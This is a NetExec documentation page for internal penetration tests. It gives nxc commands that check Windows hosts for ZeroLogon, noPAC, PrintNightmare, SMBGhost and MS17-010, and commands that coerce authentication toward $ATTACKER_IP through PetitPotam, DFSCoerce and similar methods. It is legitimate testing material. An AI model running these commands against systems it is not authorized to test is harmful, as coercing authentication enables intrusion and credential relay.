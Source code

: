 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

## Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

#### ZeroLogon

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M zerologon
```

#### noPAC

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M nopac
```

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

#### PrintNightmare

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M printnightmare
```

#### SMBGhost

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M smbghost
```

#### MS17-010 (Not tested outside LAB environment)

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M ms17-010
```

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

## Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce\_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M coerce_plus -o LISTENER=$ATTACKER_IP
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M coerce_plus -o LISTENER=$ATTACKER_IP ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
Instead of using the `METHOD` option, you can use its short form `M`. Similarly, the argument `LISTENER` can be shortened to `L`.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`

